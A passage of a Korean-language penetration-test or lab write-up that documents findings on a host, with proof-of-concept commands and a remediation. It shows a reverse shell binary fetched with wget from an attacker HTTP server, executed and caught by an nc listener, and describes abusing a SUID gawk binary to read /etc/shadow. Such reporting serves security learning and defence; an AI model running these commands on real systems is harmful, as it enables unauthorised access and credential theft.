 9999번 포트를 오픈하고 `wget`을 사용하여 호스트에 리버스 쉘을 업로드 하였으며, 실행권한을 준 뒤 리버스 쉘을 연결했다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
172.31.157.1 - - [22/Aug/2024 03:40:14] "GET /revshell.elf HTTP/1.1" 200 -

miller@ip-172-31-157-1:/tmp$ wget http://10.8.0.140:9999/revshell.elf
miller@ip-172-31-157-1:/tmp$ chmod +x revshell.elf 
miller@ip-172-31-157-1:/tmp$ ./revshell.elf
----------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/observer]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.0.140] from (UNKNOWN) [172.31.157.1] 39182
id;hostname;whoami 
uid=1001(miller) gid=1001(miller) groups=1001(miller)
ip-172-31-157-1
miller
```

#### 대응 방안
 - .ssh 폴더안의 id_rsa 개인키 파일 권한을 600으로 설정하여 파일 소유자 외의 사용자 접근을 제한한다.
```sh
chmod 600 /home/miller/.ssh/id_rsa
```

#### 레퍼런스

### 4. 잘못된 SUID 설정 파일
#### 취약점 개요

|정보|설명|
|----|----|
|이름|잘못된 SUID 설정 파일|
|중요도|상|
|위치|파일 위치: /usr/bin/gawk|

#### 취약점 설명
root 유저의 SUID 비트가 설정된 바이너리를 이용해 운영체제 내 모든 사용자가 root 유저 권한으로 파일 실행 가능한 취약점이다.

#### 개념 증명
linpeas를 실행한 결 SUID가 설정된 gawk 파일을 발견했다.
```sh
-rwsr-xr-x 1 root root 689K Mar 23  2022 /usr/bin/gawk
```
GTFObins를 통해 SUID가 설정된 gawk에 대한 정보를 찾아 실행하여 `/etc/shadow`파일에 있는 root의 패스워드를 찾았다.
